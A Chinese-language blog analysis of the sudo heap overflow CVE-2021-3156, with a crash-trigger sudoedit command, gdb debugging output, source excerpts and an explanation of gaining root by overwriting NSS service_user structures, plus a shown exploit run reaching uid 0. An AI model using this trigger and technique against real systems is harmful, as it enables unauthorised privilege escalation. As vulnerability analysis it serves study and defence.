

0x00 简介 最近帮小伙伴整个ubuntu上的提权，搜了下发现刚好这个sudo的合适，直接一通复制粘贴完事儿。现在抽时间分析一下。
这个漏洞存在于sudo中是一个堆溢出，根据Qualys团队的公告 可以得知，通过该漏洞可以实现本地提权。影响范围较大，从 1.8.2 到 1.8.31p2 的所有旧版本和从 1.9.0 到 1.9.5p1 的所有稳定版本都受影响，且在macOS上也会受到影响。
漏洞原理比较简单，但是利用过程很有意思， 下面记录分析过程。
0x01 漏洞分析 复现 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 ➜ ✗ uname -a Linux ubuntu 5.4.0-26-generic ➜ ✗ cat /etc/issue Ubuntu 20.04 LTS \n \l ➜ ✗ sudo --version Sudo version 1.8.31 Sudoers policy plugin version 1.8.31 Sudoers file grammar version 46 Sudoers I/O plugin version 1.8.31 ➜ ✗ ldd --version ldd (Ubuntu GLIBC 2.31-0ubuntu9) 2.31 Copyright (C) 2020 Free Software Foundation, Inc. This is free software; see the source for copying conditions. There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. Written by Roland McGrath and Ulrich Drepper. ➜ ✗ ➜ ✗ sudoedit -s '\' `perl -e 'print "ABCD" x 6553' ` malloc(): corrupted top size [1] 209236 abort (core dumped) sudoedit -s '\' `perl -e 'print "ABCD" x 6553' ` ➜ ✗ sudoedit -s '\' `perl -e 'print "ABCD" x 6553' ` usage: sudoedit [-AknS] [-r role] [-t type ] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] file ...
分析 由于ubuntu的lts是会更新的，所以低版本系统未必会存在，高版本也不一定就不存在。还是得根据实际情况判断。这里为了分析方便，我们下载sudo的符号或者自己通过源码编译一份出来：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 wget https://github.com/sudo-project/sudo/archive/SUDO_1_8_31.tar.gz tar -xvf SUDO_1_8_31.tar.gz cd sudo-SUDO_1_8_31; ./configure CFLAGS="-g" CPPFLAGS="-g" make -j4 sudo chown root:root examples/sudo.conf sudo chown root:root examples/sudoers sudo chown root:root plugins/sudoers/.libs/sudoers.so sudo chown root:root src/.libs/sudo sudo chmod 4755 src/.libs/sudo sudo ln -s src/.libs/sudo src/.libs/sudoedit sudo apt-get install glibc-source tar -xvf /usr/src/glibc/glibc-2.31.tar.xz
自己编好sudo后再触发一下，这次用gdb附加，看下崩溃点在哪里：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 ➜ ~ sudo gdb --args /usr/local /bin/sudoedit -s '\' `perl -e 'print "ABCD" x 6553' ` [sudo] password for x: GNU gdb (Ubuntu 9.2-0ubuntu1~20.04) 9.2 ... Reading symbols from /usr/local /bin/sudoedit... pwndbg> r Program received signal SIGSEGV, Segmentation fault. set_cmnd () at ./sudoers.c:868 868 *to++ = *from++; LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA ──────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]─────────────────────────────────────────────────────────────────────────────────────────────── RAX 0x43 RBX 0x55ded202f598 —▸ 0x7ffef0294b7d ◂— 0x4443424144434241 ('ABCDABCD' ) RCX 0x0 RDX 0x7ffef0297f48 ◂— 0x4342414443424144 ('DABCDABC' ) RDI 0x3 RSI 0x15001c R8 0x7ff7ae902218 —▸ 0x7ff7ae1101ac ◂— 0x2000200020002 R9 0x7ff7aeaf51f0 (main_arena+1648) —▸ 0x7ff7aeaf51e0 (main_arena+1632) —▸ 0x7ff7aeaf51d0 (main_arena+1616) —▸ 0x7ff7aeaf51c0 (main_arena+1600) —▸ 0x7ff7aeaf51b0 (main_arena+1584) ◂— ... R10 0x55ded2018010 ◂— 0x0 R11 0x7ff7aeaf4be0 (main_arena+96) —▸ 0x55ded2035c30 ◂— 0x4241204443424144 ('DABCD AB' ) R12 0x0 R13 0x7ffef0293730 ◂— 0xffffffffffffffff R14 0x7ffef0297f47 ◂— 0x4241444342414443 ('CDABCDAB' ) R15 0x7ffef0297f48 ◂— 0x4342414443424144 ('DABCDABC' ) RBP 0x55ded2039001 RSP 0x7ffef02936f0 ◂— 0x7ffe00000000 RIP 0x7ff7adad8211 (sudoers_policy_main+3425) ◂— mov byte ptr [rbp - 1], al ────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────────────────────────────────────────────── ► 0x7ff7adad8211 <sudoers_policy_main+3425> mov byte ptr [rbp - 1], al 0x7ff7adad8214 <sudoers_policy_main+3428> movzx eax, byte ptr [r14 + 1] 0x7ff7adad8219 <sudoers_policy_main+3433> test al, al 0x7ff7adad821b <sudoers_policy_main+3435> je sudoers_policy_main+3496 <sudoers_policy_main+3496> ↓ 0x7ff7adad8258 <sudoers_policy_main+3496> add rbx, 8 0x7ff7adad825c <sudoers_policy_main+3500> mov byte ptr [rbp], 0x20 0x7ff7adad8260 <sudoers_policy_main+3504> lea rax, [rbp + 1] 0x7ff7adad8264 <sudoers_policy_main+3508> mov r15, qword ptr [rbx] 0x7ff7adad8267 <sudoers_policy_main+3511> test r15, r15 0x7ff7adad826a <sudoers_policy_main+3514> je sudoers_policy_main+3528 <sudoers_policy_main+3528> ↓ 0x7ff7adad8278 <sudoers_policy_main+3528> mov byte ptr [rax - 1], 0 ────────────────────────────────────────────────────────────────────────────────────────────[ SOURCE (CODE) ]───────────────────────────────────────────────────────────────────────────────────────────── In file: /home/x/Documents/cve-2021-3156/sudo-SUDO_1_8_31/plugins/sudoers/sudoers.c 863 */ 864 for (to = user_args, av = NewArgv + 1; (from = *av); av++) { 865 while (*from) { 866 if (from[0] == '\\' && !isspace((unsigned char)from[1])) 867 from++; ► 868 *to++ = *from++; 869 } 870 *to++ = ' ' ; 871 } 872 *--to = '\0' ; 873 } else { ────────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────────────────────────────────────────────── 00:0000│ rsp 0x7ffef02936f0 ◂— 0x7ffe00000000 01:0008│ 0x7ffef02936f8 ◂— 0x0 02:0010│ 0x7ffef0293700 ◂— 0x7ffe00020002 03:0018│ 0x7ffef0293708 ◂— 0xaeb2bc89 04:0020│ 0x7ffef0293710 ◂— 0x3000000000 05:0028│ 0x7ffef0293718 —▸ 0x7ffef02937b0 —▸ 0x7ffef0293830 ◂— 0x0 06:0030│ 0x7ffef0293720 —▸ 0x7ffef0293730 ◂— 0xffffffffffffffff 07:0038│ 0x7ffef0293728 ◂— 0x0 ──────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────────────────────────────────────────────────────────── ► f 0 0x7ff7adad8211 sudoers_policy_main+3425 f 1 0x7ff7adad8211 sudoers_policy_main+3425 f 2 0x7ff7adad10fa sudoers_policy_check+154 f 3 0x55ded1571c46 main+1030 f 4 0x55ded1571c46 main+1030 f 5 0x7ff7ae9300b3 __libc_start_main+243 ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── pwndbg> bt pwndbg>
可以看出来崩溃点在sudoers.c文件中的868行，看起来在做内存复制操作，调用栈也能看得清，分析一下源码。
sudo加上 -s和-i选项会分别设置MODE_SHELL，MODE_SHELL&&MODE_LOGIN_SHELL。在main 函数中调用了parse_args函数，其中会重写argv：注意一点，如果启用了MODE_SHELL，会对参数添加反斜杠‘\’进行转义。之后将command都将被复制到堆上。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 if (ISSET(mode, MODE_RUN) && ISSET(flags, MODE_SHELL)) { char **av, *cmnd = NULL ; int ac = 1 ; if (argc != 0 ) { char *src, *dst; size_t cmnd_size = (size_t ) (argv[argc - 1 ] - argv[0 ]) + strlen (argv[argc - 1 ]) + 1 ; cmnd = dst = reallocarray(NULL , cmnd_size, 2 ); for (av = argv; *av != NULL ; av++) { for (src = *av; *src != '\0' ; src++) { if (!isalnum ((unsigned char )*src) && *src != '_' && *src != '-' && *src != '$' ) *dst++ = '\\' ; *dst++ = *src; } ... }
之后会进入sudoers_policy_check，在sudoers_policy_main中调用了set_cmnd()，在set_cmnd中会根据参数的大小分配空间user_args， 随后判断是否开启了MODE_SHELL即“-s”参数， 开启了则将命令行参数拷贝到user_args中，并将command中的元字符反转义。但是这里的拷贝流程有个问题，如果“\”后面紧跟的是“\0”，那么临时变量from则会+2跳过结束符指向下一个字符串，从而造成越界写。
1 2 3 4 5 6 7 8 9 10 ... for (to = user_args, av = NewArgv + 1 ; (from = *av); av++) { while (*from) { if (from[0 ] == '\\' && !isspace ((unsigned char )from[1 ])) from++; *to++ = *from++; } *to++ = ' ' ; } ...
漏洞是这么个情况，但是为什么sudo中的洞需要用sudoedit来触发呢？这里涉及到sudo中的一个校验：
当启用MODE_SHELL flag时， parse_args函数会对其添加“\”进行转义，而set_cmnd中触发堆溢出前会判断是否启用了MODE_SHELL 以及MODE_RUN、MODE_EDIT、MODE_CHECK这三个中的一个。也就是说MODE_SHELL是必须的，并且需要存在单个‘\’才能触发漏洞，但是启用了MODE_SHELL & MODE_RUN就会将\转义成为\”，所以使用sudo就无法触发漏洞。但是sudoedit是个特殊的存在：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 #define DEFAULT_VALID_FLAGS (MODE_BACKGROUND|MODE_PRESERVE_ENV|MODE_RESET_HOME|MODE_LOGIN_SHELL|MODE_NONINTERACTIVE|MODE_SHELL) int parse_args (int argc, char **argv, int *nargc, char ***nargv, struct sudo_settings **settingsp, char ***env_addp) struct environment extra_env ; int mode = 0 ; int flags = 0 ; int valid_flags = DEFAULT_VALID_FLAGS; ... proglen = strlen (progname); if (proglen > 4 && strcmp (progname + proglen - 4 , "edit" ) == 0 ) { progname = "sudoedit" ; mode = MODE_EDIT; sudo_settings[ARG_SUDOEDIT].value = "true" ; } for (;;) { if ((ch = getopt_long(argc, argv, short_opts, long_opts, NULL )) != -1 ) { switch (ch) { …… case 'e' : mode = MODE_EDIT; valid_flags = MODE_NONINTERACTIVE; break ; …… case 's' : SET(flags, MODE_SHELL); break ; …… } …… } …… } …… if ((flags & valid_flags) != flags) usage(1 ); }
可以看到如果调用程序为sudoedit的时候，会为其添加MODE_EDIT flag，这时再使用-s 即可满足条件且不会被转义。
0x02 利用 在写具体利用前我们先整理下：
现在我们有了一个堆溢出， 能够越界写并且写的内容是完全可控的。同时存储我们数据的user_args空间也是可控的，大小可控内容可控。
同时也有限制， 溢出只能触发一次。我们也没有办法绕过aslr， 所以像常规的修改链表指针、ret2libc 之类的技巧这里就完全用不上了。
讲道理这里我也不知道该怎么去利用了，但是Qualys团队牛逼啊，他们通过爆破来找寻找漏洞利用方式：
在gdb中执行sudo， 溢出user_args 缓冲区并随即选择下面的参数：
向sudo传递LC环境变量，以及他们的长度（使用“C.UTF-8”并追加一个随机字符”@modifier”）
我们溢出的”user_args”缓冲区的大小
是否通过身份认证代码（-A ， -n， -u）
还真让他们给找到了，找到三种利用方式，这里我们只看比较好用的一种：覆写service_user结构。
1 2 3 4 5 6 7 8 9 10 11 12 13 typedef struct service_user { struct service_user *next ; lookup_actions actions[5 ]; service_library *library; void *known; char name[0 ]; } service_user;
Name Service Switch(NSS)是unix操作系统中的一项机制，主要用于为名称解析机制提供来源，也就是选择对应的so文件提供服务。配置文件在/etc/nsswitch.conf中：
1 2 3 4 5 6 7 8 9 10 11 12 13 ✗ cat /etc/nsswitch.conf passwd: files systemd group: files systemd shadow: files gshadow: files ...
针对每种“数据库”， 都有对应的libnss_XXXXX.so.1与之对应，在程序中通过nss_load_library 加载对应的库，之后在调用对应函数时会先调用 nss_lookup_function进行查找。
根据nss_load_library 函数得知： 当对应service_user中的library为空时，会通过_libc_dlopen 调用“libnss_”+”service_user→name”+”.so”。所以我们通过覆写service_user结构中的library和name字段即可使程序加载我们自己设置的恶意libc进而执行我们的代码。
这里再说一下提权
1 2 3 ✗ ls -alth /usr/local /bin/sudo* lrwxrwxrwx 1 root root 4 Sep 25 01:59 /usr/local /bin/sudoedit -> sudo -rwsr-xr-x 1 root root 586K Sep 25 01:59 /usr/local /bin/sudo
可以看到sudoedit 就是sudo的一个链接，sudo 拥有一个特殊的权限标记s， 表明它的所有者为root。所以当我们通过它来执行setuid、setgid的时候也就是相当于通过root身份来完成的。所以在我们伪造的so中只需要执行setuid(0), setgid(0)便可以提权，最后再执行一个shell。
这里拿测试比较稳定的exp 来调试，应对上面的理论。
1 2 3 4 5 6 7 8 9 10 11 12 ➜ CVE-2021-3156 git:(main) ✗ zsh ➜ CVE-2021-3156 git:(main) ✗ whoami x ➜ CVE-2021-3156 git:(main) ✗ ./exploit uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),1000(x) root ... echo "catch exec\n set follow-exec-mode new\n r\n b policy_check\n c\n b sudoers.c:865 \n b nss_load_librarty\n" > dbg.txtsudo gdb exploit -x dbg.txt
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 pwndbg> search -s files [heap] [heap] 0x55934bcebae0 0x78650073656c6966 /* 'files' */ [heap] 0x55934bcef380 0x530073656c6966 /* 'files' */ [heap] 0x55934bcefd30 0x73656c6966 /* 'files' */ [heap] 0x55934bcefd90 0x73656c6966 /* 'files' */ [heap] 0x55934bcefdf0 0x73656c6966 /* 'files' */ [heap] 0x55934bcefef0 0x73656c6966 /* 'files' */ [heap] 0x55934bceffa0 0x73656c6966 /* 'files' */ [heap] 0x55934bcf0050 0x2010073656c6966 /* 'files' */ [heap] 0x55934bcf00f0 0x10073656c6966 /* 'files' */ [heap] 0x55934bcf0190 0x73656c6966 /* 'files' */ [heap] 0x55934bcf028d 'files.so.2' [heap] 0x55934bcf02bd 'files.so.2' [heap] 0x55934bcf11a7 'files.so.2' [heap] 0x55934bcfbcc8 0x6e692073656c6966 ('files in' ) [heap] 0x55934bcfbd8c 0x6e692073656c6966 ('files in' ) [heap] 0x55934bcfbe38 0x6e6f2073656c6966 ('files on' ) [heap] 0x55934bcfcd28 0x6e692073656c6966 ('files in' ) [heap] 0x55934bcfcdec 0x6e692073656c6966 ('files in' ) [heap] 0x55934bcfce98 0x6e6f2073656c6966 ('files on' ) pwndbg> hexdump 0x55934bcef380 +0000 0x55934bcef380 66 69 6c 65 73 00 53 00 31 01 00 00 00 00 00 00 │file│s.S.│1...│....│ +0010 0x55934bcef390 b0 f0 ce 4b 93 55 00 00 01 00 00 00 00 00 00 00 │...K│.U..│....│....│ +0020 0x55934bcef3a0 00 00 00 00 00 00 00 00 a0 f2 ce 4b 93 55 00 00 │....│....│...K│.U..│ +0030 0x55934bcef3b0 e0 e2 ce 4b 93 55 00 00 50 eb ce 4b 93 55 00 00 │...K│.U..│P..K│.U..│ pwndbg> hexdump 0x55934bcef350 +0000 0x55934bcef350 a0 fc ce 4b 93 55 00 00 00 00 00 00 00 00 00 00 │...K│.U..│....│....│ +0010 0x55934bcef360 00 00 00 00 01 00 00 00 01 00 00 00 6e 2f 4c 43 │....│....│....│n/LC│ +0020 0x55934bcef370 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 │....│....│....│....│ +0030 0x55934bcef380 66 69 6c 65 73 00 53 00 31 01 00 00 00 00 00 00 │file│s.S.│1...│....│ ─────────────────────────────────────────────────────────────────────────────[ SOURCE (CODE) ]────────────────────────────────────────────────────────────────────────────── In file: /home/x/Documents/cve-2021-sudo/sudo-SUDO_1_8_31/plugins/sudoers/sudoers.c 860 * When running a command via a shell, the sudo front-end 861 * escapes potential meta chars. We unescape non-spaces 862 * for sudoers matching and logging purposes. 863 */ 864 for (to = user_args, av = NewArgv + 1; (from = *av); av++) { ► 865 while (*from) { 866 if (from[0] == '\\' && !isspace((unsigned char)from[1])) 867 from++; 868 *to++ = *from++; 869 } 870 *to++ = ' ' ; ─────────────────────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────────────────────── 00:0000│ rsp 0x7ffeffee5480 ◂— 0x7ffe00000000 01:0008│ 0x7ffeffee5488 ◂— 0x0 02:0010│ 0x7ffeffee5490 ◂— 0x7ffe00020002 03:0018│ 0x7ffeffee5498 ◂— 0x14100c89 04:0020│ 0x7ffeffee54a0 ◂— 0x3000000000 05:0028│ 0x7ffeffee54a8 —▸ 0x7ffeffee5540 —▸ 0x7ffeffee55c0 ◂— 0x0 06:0030│ 0x7ffeffee54b0 —▸ 0x7ffeffee54c0 ◂— 0xffffffffffffffff 07:0038│ 0x7ffeffee54b8 ◂— 0x0 ───────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────────────────── ► f 0 0x7fda1309b1f0 sudoers_policy_main+3392 f 1 0x7fda1309b1f0 sudoers_policy_main+3392 f 2 0x7fda130940fa sudoers_policy_check+154 f 3 0x55934adf9c46 main+1030 f 4 0x55934adf9c46 main+1030 f 5 0x7fda13f050b3 __libc_start_main+243 ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── pwndbg> p to $1 = 0x55934bceedb0 "" pwndbg> x/6gx to-0x10 0x55934bceeda0: 0x0000000000000000 0x00000000000000f1 0x55934bceedb0: 0x0000000000000000 0x0000000000000000 0x55934bceedc0: 0x6170676e616c2d65 0x4141406e652f6b63 pwndbg> c Continuing. Thread 2.1 "sudoedit" hit Breakpoint 4, nss_load_library (ni=ni@entry=0x55934bcef350) at nsswitch.c:329 329 nsswitch.c: No such file or directory. LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── *RAX 0x7fda140969d7 ◂— 'initgroups_dyn' *RBX 0x55934bcef350 ◂— 'XXXXXXXXXXXXXXXX' *RCX 0x55934bceb010 ◂— 0x200000001 *RDX 0x1 *RDI 0x55934bcef350 ◂— 'XXXXXXXXXXXXXXXX' *RSI 0x55934bcfb670 ◂— 0x0 *R8 0x55934bd03b90 —▸ 0x7fda140969d7 ◂— 'initgroups_dyn' *R9 0x7ffeffee4bb0 ◂— 0xff00 *R10 0xffffffff *R11 0x0 *R12 0x55934bcf6de0 —▸ 0x55934bd03b90 —▸ 0x7fda140969d7 ◂— 'initgroups_dyn' *R13 0x7ffeffee4d18 —▸ 0x7fda140969d7 ◂— 'initgroups_dyn' *R14 0x55934bcef378 —▸ 0x55934bcf6de0 —▸ 0x55934bd03b90 —▸ 0x7fda140969d7 ◂— 'initgroups_dyn' *R15 0x55934bd03b90 —▸ 0x7fda140969d7 ◂— 'initgroups_dyn' *RBP 0x7ffeffee4d60 ◂— 0x0 *RSP 0x7ffeffee4d08 —▸ 0x7fda14024ed9 (__nss_lookup_function+233) ◂— test eax, eax *RIP 0x7fda140244c0 (nss_load_library) ◂— push rbp ─────────────────────────────────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────────────────────────────── ► 0x7fda140244c0 <nss_load_library> push rbp 0x7fda140244c1 <nss_load_library+1> mov rbp, rsp 0x7fda140244c4 <nss_load_library+4> push r15 0x7fda140244c6 <nss_load_library+6> push r14 0x7fda140244c8 <nss_load_library+8> push r13 0x7fda140244ca <nss_load_library+10> push r12 0x7fda140244cc <nss_load_library+12> mov r12, rdi 0x7fda140244cf <nss_load_library+15> push rbx 0x7fda140244d0 <nss_load_library+16> sub rsp, 0x28 0x7fda140244d4 <nss_load_library+20> mov rbx, qword ptr [rdi + 0x20] 0x7fda140244d8 <nss_load_library+24> mov rax, qword ptr fs:[0x28] ─────────────────────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────────────────────── 00:0000│ rsp 0x7ffeffee4d08 —▸ 0x7fda14024ed9 (__nss_lookup_function+233) ◂— test eax, eax 01:0008│ 0x7ffeffee4d10 —▸ 0x7fda140c9be0 (main_arena+96) —▸ 0x55934bd03ba0 ◂— 0x0 02:0010│ r13 0x7ffeffee4d18 —▸ 0x7fda140969d7 ◂— 'initgroups_dyn' 03:0018│ 0x7ffeffee4d20 ◂— 0x40004 04:0020│ 0x7ffeffee4d28 ◂— 0x665ff34213612600 05:0028│ 0x7ffeffee4d30 ◂— 0x40010 06:0030│ 0x7ffeffee4d38 ◂— 0x1 07:0038│ 0x7ffeffee4d40 —▸ 0x7ffeffee4de8 ◂— 0x10001 ───────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────────────────── ► f 0 0x7fda140244c0 nss_load_library f 1 0x7fda14024ed9 __nss_lookup_function+233 f 2 0x7fda13fc013f internal_getgrouplist+175 f 3 0x7fda13fc03ed getgrouplist+109 f 4 0x7fda140fc316 sudo_getgrouplist2_v1+198 f 5 0x7fda130ad593 sudo_make_gidlist_item+451 f 6 0x7fda130ac33e sudo_get_gidlist+286 f 7 0x7fda130a609d runas_getgroups+93 ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── pwndbg> hexdump $rdi +0000 0x55934bcef350 58 58 58 58 58 58 58 58 58 58 58 58 58 58 58 58 │XXXX│XXXX│XXXX│XXXX│ +0010 0x55934bcef360 00 00 00 00 00 00 00 00 00 58 58 58 58 58 58 58 │....│....│.XXX│XXXX│ +0020 0x55934bcef370 00 00 00 00 00 00 00 00 e0 6d cf 4b 93 55 00 00 │....│....│.m.K│.U..│ +0030 0x55934bcef380 78 2f 78 00 5a 00 53 00 31 01 00 00 00 00 00 00 │x/x.│Z.S.│1...│....│
要点（坑） 通过设置user_args 溢出覆盖service_user 结构的原理我们已经比较清楚了，而且这里是作者通过爆破的方式找到的利用点。
但是这里有个问题，如何将user_args分配在service_user结构的附近。因为如果两者相距过远，在溢出过程中可能会覆盖一些关键结构，造成程序退出。所以这里涉及到将特定内存块分配到特定的位置上，也就是所谓的“堆风水”。这里的布局方式也是不知道，只能归功于爆破和fuzz >##<
0x03 小结
漏洞本身是个逻辑问题造成的堆溢出
通过使用sudoedit绕过程序中的限制触发漏洞
利用sudo函数中开始地方调用的setlocale相关函数控制user_args堆的大小以及布局堆的排布
通过堆风水配合溢出，覆盖service_user 结构的library=NULL和name字段，进而使得nss_load_library 加载可控的库文件
至于如何找到nss_load_library 这个会被调用的点？←——— 爆破+fuzz
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 //根据这个调用栈，手动找也不是不行，可能得花超多的时间..... ► f 0 0x7f89905114c0 nss_load_library f 1 0x7f8990511ed9 __nss_lookup_function+233 f 2 0x7f89904ad13f internal_getgrouplist+175 f 3 0x7f89904ad3ed getgrouplist+109 f 4 0x7f89905e9316 sudo_getgrouplist2_v1+198 f 5 0x7f898f59a593 sudo_make_gidlist_item+451 f 6 0x7f898f59933e sudo_get_gidlist+286 f 7 0x7f898f59309d runas_getgroups+93 ─────────────────────────────────────────────── ► f 0 0x7f898f593040 runas_getgroups f 1 0x7f898f584872 set_perms+1650 f 2 0x7f898f584872 set_perms+1650 f 3 0x7f898f57ed5a sudoers_lookup+106 f 4 0x7f898f587b41 sudoers_policy_main+1681 f 5 0x7f898f5810fa sudoers_policy_check+154 f 6 0x55fda0420c46 main+1030 f 7 0x55fda0420c46 main+1030
除了利用部分，其实我对这个漏洞的发现也比较好奇。虽然sudo是有源码可以fuzz的，但是基于分析过程中所说的几项限制，似乎从fuzz的角度是很难发现的。最后在网上搜到当事团队的视频，讲他们其实是通过代码审计发现的：

另外，发现利用方式那里也很有意思。通过爆破的方式，利用程序一开始便加载的定位相关函数，制造crash来寻找利用方式。学到了学到了。。。
0x04 参考链接
Heap-based buffer overflow in Sudo (CVE-2021-3156) exploit from lockedbyte Linux系统内部的名称解析与安全认证 CVE-2021-3156sudo堆溢出分析